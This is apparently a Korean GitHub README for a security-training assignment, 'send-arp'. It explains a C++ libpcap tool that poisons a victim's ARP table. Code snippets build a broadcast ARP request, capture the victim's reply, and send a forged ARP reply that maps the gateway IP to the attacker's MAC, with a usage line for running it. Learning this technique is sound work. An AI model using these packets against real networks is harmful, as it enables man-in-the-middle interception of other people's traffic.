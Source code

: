 # BoB 14기 보안제품개발트랙 과제 : send-arp


## 과제

Sender(Victim)의 ARP table을 변조하라.

### 실행

```cpp
syntax : send-arp <interface> <sender ip> <target ip> [<sender ip 2> <target ip 2> ...]
sample : sudo ./send-arp wlan0 10.3.3.16 10.3.3.1

```

---

- Victim(Sender)의 ARP 테이블을 조작하여 Gateway(Target)의 MAC 주소를 Attacker의 MAC으로 바꾸는 **ARP 스푸핑** 공격을 수행
- tech: `pcap_sendpacket()`으로 패킷 전송, `pcap_next_ex()`로 응답 수신

---

### 로직 설계

1. 공격자의 인터페이스에서 MAC 주소를 읽음
2. sender IP가 사용하는 MAC 주소를 얻기 위해 ARP Request를 브로드캐스트로 전송
3. sender의 ARP Reply를 수신하여 sender의 MAC 주소를 획득
4. 위 정보를 바탕으로 위조된 ARP Reply(ARP 감염 패킷)을 sender에게 전송
5. sender는 target IP에 대해 attacker MAC을 매핑함 → **ARP 테이블 변조 성공**

---

### 주요 구조체 설명

### 코드 설명

### 헤더 구조 설명 (`send-arp.h`)

### Ethernet 헤더 (`eth_hdr_t`)

```cpp
#define MAC_LEN 6
#define IP_LEN 4

```

MAC 주소(6바이트)와 IPv4 주소(4바이트)의 길이 정의

```cpp
struct eth_hdr_t {
    uint8_t dmac[6]; // 목적지 MAC
    uint8_t smac[6]; // 출발지 MAC
    uint16_t type;   // 상위 프로토콜 (0x0806: ARP)
};
```

`uint8_t`는 정확히 1바이트

MAC 주소는 6바이트이므로 `uint8_t[6]`로 표현

ARP를 위해 type 필드는 0x0806으로 설정된다. `#pragma pack(1)`은 패딩 없이 구조체를 메모리에 붙여 저장하도록 한다.(네트워크 패킷은 바이트 단위로 정해진 형식이기 때문)

### ARP 헤더 (`arp_hdr_t`)

```cpp
struct arp_hdr_t {
    uint16_t hrd;     // 하드웨어 타입 (1: Ethernet)
    uint16_t pro;     // 프로토콜 타입 (0x0800: IPv4)
    uint8_t hln;      // MAC 길이 (6)
    uint8_t pln;      // IP 길이 (4)
    uint16_t op;      // 1: request, 2: reply -> 오퍼레이션코드
    uint8_t smac[6];  // 출발지 MAC
    uint8_t sip[4];   // 출발지 IP
    uint8_t tmac[6];  // 목적지 MAC
    uint8_t tip[4];   // 목적지 IP
};

```

`op` 필드로 request/reply를 구분한다.

### send-arp.cpp

### `get_mac()`

```cpp
bool get_mac(const std::string& iface, uint8_t* mac)

```

`/sys/class/net/<iface>/address`에서 MAC 주소를 문자열로 읽고, `std::stoi(..., 16)`으로 16진수 문자열을 숫자로 변환해 byte 배열에 저장. 

`:` 제거 후 2자리씩 나눠 파싱

`pcap_open_live()`

```cpp
pcap_t* handle = pcap_open_live(dev, BUFSIZ, 1, 1, errbuf);
```

`BUFSIZ`: 캡처 버퍼 사이즈
`1`: promiscuous 모드로 설정 (내 MAC이 아닌 패킷도 수신 하기 위해서)
`1`: timeout(ms), 너무 짧으면 패킷을 못 받을 수 있기 때문

---

### ARP Request 패킷 구성

```cpp
memset(eth->dmac, 0xff, MAC_LEN); // 브로드캐스트
memcpy(eth->smac, attacker_mac, MAC_LEN);
eth->type = htons(0x0806);

 
```

`host to network short(htons)` : 네트워크는 Big Endian, 시스템은 Little Endian일 수 있으므로 명시적 변환을 하기 위해서

```cpp
arp->op  = htons(1); // ARP Request
inet_pton(AF_INET, target_ip, arp->sip); // source는 내가 target이라 가정
inet_pton(AF_INET, sender_ip, arp->tip); // 목적지는 sender

```

ARP Request는 이 IP 주소를 가진 장치에게  MAC 주소가 무엇인지를 묻는다.

`arp->op = htons(1);`-> ARP Request(요청) 패킷임을 명시하는 부분

***ARP 프로토콜에서 op (Operation) 필드**

| 값 | 의미 |
| --- | --- |
| 1 | ARP Request |
| 2 | ARP Reply |

*ARP 패킷은 네트워크 바이트 순서(Big Endian) 를 사용함

**ARP 요청을 sender에게 한 이유** → 목적은 sender의 MAC 주소를 얻는 것.

즉, `target_ip`에서 `sender_ip`의 MAC을 알아내는 요청을 broadcast로 뿌려 주었다. 

---

### ARP Reply 수신 (sender의 MAC 획득)

```cpp
	while (true) {
		int res = pcap_next_ex(handle, &header, &pkt);
		if (res != 1) continue;

		auto* r_eth = (eth_hdr_t*)pkt;
		auto* r_arp = (arp_hdr_t*)(pkt + sizeof(eth_hdr_t));

		if (ntohs(r_eth->type) == 0x0806 &&
			ntohs(r_arp->op) == 2 &&
			memcmp(r_arp->sip, arp->tip, IP_LEN) == 0) {
			memcpy(sender_mac, r_arp->smac, MAC_LEN);
		break;
			}
	}

```

원하는 ARP Reply가 올 때까지 while문으로 반복해주었다. 

ARP Reply 필터링해 주었다. 

패킷을 캡처하는 `pcap_next_ex()` 를 반복해서 MAC 주소를 추출한다. 

EtherType이 0x0806인지를 확인하고, ARP Reply인지(2) 확인한 뒤, 보내는 쪽 IP가 우리가 ARP 요청한 대상(sender_ip)인지 확인한다. (`sip == sender_ip`이면 응답 보낸 건 sender이다.)

---

### 위조된 ARP Reply 전송 (감염 패킷)

```cpp
arp->op  = htons(2); // ARP Reply
memcpy(arp->smac, attacker_mac, MAC_LEN);  // 출발 MAC = attacker (위조)
inet_pton(AF_INET, target_ip, arp->sip);   // 출발 IP = target (위조)
memcpy(arp->tmac, sender_mac, MAC_LEN);    // 목적 MAC = sender
inet_pton(AF_INET, sender_ip, arp->tip);   // 목적 IP = sender

```

sender에게 보내는 위조된 패킷이다.

`arp->op = htons(2);`-> ARP Reply(응답) 패킷임을 명시하는 부분이다. 

2를 넣으면 이 패킷이 ARP Reply임을 나타낸다. arp reply 패킷으로 위장해야 하므로 해당 코드를 사용한다.

---

### knowledge

| 구성 요소 | 크기 (bytes) |  
| --- | --- | 
| Ethernet Header | 14 bytes |  
| ARP Header | 28 bytes |  
| 합계 | **42 bytes** |

---

### **Reference**

[Attacker(자신) Mac 주소 값를 알아 내는 방법]

https://github.com/YOGYUI/Sniffets/tree/main/linux_get_mac_address/src

GPT, Claude

https://chatgpt.com/

https://claude.ai/

[op 1,2]

https://whatdocumentary.tistory.com/52

### Issue

---

ARP Request 보냈는데 되지 않았다. 알고보니, `op = 1` 을 그냥 넣고, `htons()` 을 넣지 않아서였다. ARP op 필드가 0x0100이 된 것이다.
